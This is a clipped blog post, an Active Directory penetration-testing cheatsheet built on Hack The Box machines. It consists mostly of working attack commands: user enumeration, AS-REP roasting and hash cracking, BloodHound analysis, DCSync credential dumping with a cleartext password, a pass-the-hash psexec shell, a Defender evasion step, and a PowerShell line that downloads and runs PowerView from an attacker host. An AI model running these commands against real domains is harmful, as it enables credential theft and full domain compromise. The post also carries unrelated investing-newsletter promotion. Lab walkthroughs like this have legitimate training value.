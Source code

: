 ```yaml
---
title: "Active Directory penetration testing cheatsheet | by Ayrat Murtazin - Freedium"
source: "https://freedium.cfd/https://medium.com/@ayratmurtazin/active-directory-penetration-testing-cheatsheet-37ad5e7e6ebf"
author:
published:
created: 2025-01-21
description: "All you need to know to hack Active directory"
tags:
  - "clippings"
---
```

As an example, here I used one of the htb boxes

**Before we begin, I extend an invitation for you to join my dividend investing** **[community](https://ayratmurtazin.beehiiv.com/subscribe)****. By joining, you won't miss any crucial articles and can enhance your skills as an investor. As a bonus, you'll receive a complimentary welcome gift: A 2024 Model Book With The Newest Trading Strategies (both Options and Dividends)**

### 1) Get the domain name:

crackmapexec smb 10.10.10.175

smbmap -H 10.10.10.175 -u '' -p ''

### 2) Try to get users' lists:

[GetADUsers.py](http://getadusers.py/) egotistical-bank.local/ -dc-ip 10.10.10.175 -debug

![None](https://miro.medium.com/v2/resize:fit:700/0*z-PdWAxVebXJHTXh.png)

### Lightweight Directory Access Protocol (LDAP)

./windapsearch.py -U — full — dc-ip 10.10.10.182

The command above will list out all users in the domain.

![None](https://miro.medium.com/v2/resize:fit:700/0*g11bBqiyGAC6omMK.png)

### 3) Enumerate shares:

![None](https://miro.medium.com/v2/resize:fit:700/0*VLAAhf5QwyCWGrIS.png)

### 4) Get usernames' lists from the website's team's names:

./username-anarchy — input-file fullnames.txt — select-format first,flast,first.last,firstl > unames.tx

![None](https://miro.medium.com/v2/resize:fit:700/0*ggClIdHBMIqj5O_6.png)

### 5) Another attempt to get users' list:

![None](https://miro.medium.com/v2/resize:fit:700/0*wRsFYdKAKQLKhDOe.png)

### 6) To get the domain base:

ldapsearch -x -h 10.10.10.175 -s base namingcontexts

![None](https://miro.medium.com/v2/resize:fit:700/0*s2ezyYkWlxpPfFeS.png)

### 7) To get more information about domain:

ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'

![None](https://miro.medium.com/v2/resize:fit:700/0*oMbp9QMpBnRo1VpI.png)

### 8) Brute-force users on the domain:

kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt — dc 10.10.10.175

### 9) Get Hash

I'll use the list of users I collected from Kerbrute, and run [GetNPUsers.py](http://getnpusers.py/) to look for vulnerable users. Three come back as not vulnerable, but one gives a hash:

[GetNPUsers.py](http://getnpusers.py/) 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175

![None](https://miro.medium.com/v2/resize:fit:700/0*wrrC6QQCo9g9bFjY.png)

### 10) Crack Hash

hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt — force

![None](https://miro.medium.com/v2/resize:fit:700/0*z1M_sEUod3SqbKwf.png)

### 11) Bloodhound

I ran `winPEAS.exe` again, but nothing new jumped out at me. Since there's AD stuff going on, I went to [Bloodhound](https://github.com/BloodHoundAD/BloodHound).

### Download / Install

I'll clone the repository into `/opt`, and also got the latest release binary. I'll start `neo4j` (`apt install neo4j` if it's not already installed) with `neo4j start`, and then run Bloodhound. If you're running as root, you'll need the `-no-sandbox` flag.

If it's a fresh install (or if you forget your password from a previous install, you can delete `/usr/share/neo4j/data/dbms/auth` and then it's like a fresh install), I'll need to change the `neo4j` password by running `neo4j console`, visiting the url it returns, and logging in with the default creds, neo4j/neo4j. It'll force a password change them at that point. Now the BloodHound program can connect, thought first I need data.

### Run SharpHound.exe

Before I can do analysis in BloodHound, I need to collect some data. I'll grab `SharpHound.exe` from the injestors folder, and make a copy in my SMB share. Then I can run it right from there, and the output will write into the share as well:

![None](https://miro.medium.com/v2/resize:fit:700/0*tHmTzKpHWVyWk82a.png)

### Analyze Results

I'll import the `.zip` file into BloodHound by clicking the Upload Data button on the top right. Tt reports success, leaving me at a blank page. There are canned queries that might be useful, but I like to start with the user(s) I already have access to. I'll search for SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL in the bar at the top left, and it comes up on the graph. On the left, I'll want to look for Outbound Object Control - These are items that this user has rights over. In this case, there is one:

![None](https://miro.medium.com/v2/resize:fit:700/0*-ZtKH2IRFW2NqVBk.png)

Clicking the "1" add that item to the graph:

![None](https://miro.medium.com/v2/resize:fit:700/0*_9MT3CULG5c61Qd3.png)

This account has access to GetChanges and GetChangesAll on the domain. Googling that will quickly point to a low of articles on the DCSync attack, or I can right click on the label (you have to get in just the right spot) and get the menu for it:

Clicking help, there's a Abuse Info tab that includes instructions for how to abuse this privilege:

![None](https://miro.medium.com/v2/resize:fit:700/0*trgz1gJEmdLha5mp.png)

### 12) DCSync

### secretsdump

My preferred way to do a DCSync attack is using `secretsdump.py`, which allows me to run DCSync attack from my Kali box, provided I can talk to the DC on TCP 445 and 135 and a high RPC port. This avoids fighting with AV, though it does create network traffic.

I need to give it just a target string in the format `[username]:[password]@[ip]`:

[secretsdump.py](http://secretsdump.py/) 'svc\_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

![None](https://miro.medium.com/v2/resize:fit:700/0*17mptR1Z4ctjLB0v.png)

### 13) Shell

[psexec.py](http://psexec.py/) -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 [administrator@10.10.10.175](https://freedium.cfd/https://medium.com/@ayratmurtazin/)

![None](https://miro.medium.com/v2/resize:fit:700/0*t2s7gNESi7wWPUa9.png)

### DCSync Attack V2

![None](https://miro.medium.com/v2/resize:fit:700/0*aiv4pFJycWpU12Eo.png)

![None](https://miro.medium.com/v2/resize:fit:700/0*4UB8q1SOAHTMr-s0.png)

```bash
net user john abc123! /add /domainnet group "Exchange Windows Permissions" john /addnet localgroup "Remote Management Users" john /add
```

The commands above create a new user named john and add him to the required groups. Next, download the PowerView script and import it into the current session.

![None](https://miro.medium.com/v2/resize:fit:700/0*T8i3ZXE5wJrOD1L8.png)

menu > Bypass-4MSI

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can use the Add-ObjectACL with john's credentials, and give him DCSync rights.

![None](https://miro.medium.com/v2/resize:fit:700/0*ISAu4fSNfZNZQE_e.png)

```php
IEX(New-Object Net.WebClient).downloadString('[<http://10.10.14.11/PowerView.ps1>](<http://10.10.14.11/PowerView.ps1>)')$pass = convertto-securestring 'abc123!' -asplain -force$cred = new-object system.management.automation.pscredential('htb\\john', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```

After run:

[secretsdump.py](http://secretsdump.py/) htb/john@10.10.10.161

where htb is domain

The script from Impacket can now be run as john, and used to reveal the NTLM hashes for all domain users.

![None](https://miro.medium.com/v2/resize:fit:700/0*JqZS4V4D09vLsT1b.png)

The obtained Domain Admin hash can be used to login via psexec.

➡️Subscribe Me here ➡️ **[https://medium.com/@ayratmurtazin/subscribe](https://medium.com/@ayratmurtazin/subscribe)**

I've got a lot to share in my upcoming blogs.